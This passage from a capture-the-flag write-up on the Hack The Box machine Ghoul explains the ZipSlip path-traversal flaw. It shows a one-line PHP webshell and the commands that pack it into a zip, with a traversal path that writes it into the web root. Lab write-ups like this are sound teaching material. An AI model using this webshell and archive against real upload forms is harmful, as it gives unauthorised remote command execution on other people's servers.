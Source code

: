 With a little testing, I’ll see that I’m only allowed to upload jpegs on the
original form, and zips on the third one. There may be some extension
bypasses, but I won’t need them.

## Shell as www-data on Aogiri

### ZipSlip Background

When I googled “malicious zip file upload”, the first link was [this article
from naked security](https://nakedsecurity.sophos.com/2018/06/06/the-zip-slip-
vulnerability-what-you-need-to-know/). Research from summer 2018 revealed that
a lot of zip programs weren’t doing path traversal checks on zip files when
they unzipped them. For any user interface that takes untrusted zip files,
that could be a big issue, as it would allow arbitrary write anywhere the web
process can write.

This happens because zip files store files with relative paths, relative to
the directory they are unzipped into. The vulnerability is that I can put a
file into my zip with path `../../../../../../../../../../etc/passwd`, and it
will unzip and try to overwrite the `/etc/passwd` file on the host (though
usually will fail assuming www-data can’t write to `/etc/passwd`). But there
is a lot of damage that can be done, often writing a webshell.

### WebShell

I’ve already seen the site is running php. I’ll grab my trusty simple php
webshell, and copy it to the `/var/www/html` directory on my kali host.

    
    
    root@kali# cp /opt/shells/php/cmd.php /var/www/html/
    root@kali# cat /var/www/html/cmd.php 
    <?php system($_REQUEST['cmd']); ?>
    

Now I’ll add it to a zip file, but with a lot of `../` to ensure that I get to
the system root. Remember, Linux will ignore attempts to change to a parent
directory from `/`, so `/../../../` is the same as `/`:

    
    
    root@kali# zip mal.zip ../../../../../../var/www/html/cmd.php
      adding: ../../../../../../var/www/html/cmd.php (stored 0%)
    

I can check and make sure it stored correctly using `unzip -l` to list the
contents:

    
    
    root@kali# unzip -l ~/hackthebox/ghoul-10.10.10.101/mal.zip
    Archive:  /root/hackthebox/ghoul-10.10.10.101/mal.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           35  2019-05-18 15:58   ../../../../../../var/www/html/cmd.php
    ---------                     -------
           35                     1 file
    